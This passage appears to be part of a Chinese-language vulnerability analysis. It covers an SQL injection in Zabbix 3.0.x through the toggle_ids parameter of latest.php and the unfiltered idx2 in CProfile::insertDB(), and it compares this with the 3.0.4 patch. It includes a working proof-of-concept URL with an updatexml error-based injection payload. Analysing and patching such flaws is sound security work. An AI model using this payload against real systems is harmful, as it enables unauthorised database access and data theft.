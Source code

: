if语句块中第二句调用`CProfile::flush()`，从`CProfile::$insert`中取出相应的值，并进行insertDB操作：
```php
public static function flush() {
	......
	foreach (self::$insert as $idx => $profile) {
		foreach ($profile as $idx2 => $data) {
			$result &= self::insertDB($idx, $data['value'], $data['type'], $idx2);
		}
	}
	......
	return $result;
}
```
最终调用了存在SQL注入的`insertDB()`，`$idx2`可控

总结调用流程：
`latest.php: $_REQUEST['toggle_ids']   --->    CProfile::update()   --->    require_once()   --->   CProfile::flush()   --->   CProfile::insertDB()   --->   CProfile::DBexecute()`

PoC:
需要在登陆的时候抓包取得sid，或者从登陆后的页面源码中取得sid(仅3.0.x适用)
```
.../zabbix/latest.php?output=ajax&sid=b5ddf30e6b2e5899&favobj=toggle&toggle_open_state=1&toggle_ids[]=6666+or+updatexml(1,concat(0x23,(select+user()),0x23),1)+or+1=1)%23
```

#### 3.2 补丁对比
zabbix 最新版3.0.4中，删除了`latest.php`从外部获取`toggle_ids`的代码，没有了可控的参数，这个点已经`无法注入`

同时修复了`CProfile::insertDB()`的缺陷，增加了对`$idx2`的过滤。
```php
// zabbix 3.0.3 CProfile.php 277行
private static function insertDB($idx, $value, $type, $idx2) {
	$value_type = self::getFieldByType($type);
	$values = [
		'profileid' => get_dbid('profiles', 'profileid'),
		'userid' => self::$userDetails['userid'],
		'idx' => zbx_dbstr($idx),
		$value_type => zbx_dbstr($value),
		'type' => $type,
		//关键点，未进行过滤
		'idx2' => $idx2
	];
	......
}
```
```php
// zabbix 3.0.4 CProfile.php 277行
private static function insertDB($idx, $value, $type, $idx2) {
	$value_type = self::getFieldByType($type);
	$values = [
		'profileid' => get_dbid('profiles', 'profileid'),
		'userid' => self::$userDetails['userid'],
		'idx' => zbx_dbstr($idx),
		$value_type => zbx_dbstr($value),
		'type' => $type,
		//关键点，使用zbx_dbstr()进行过滤
		'idx2' => zbx_dbstr($idx2)
	];
	......
}
```
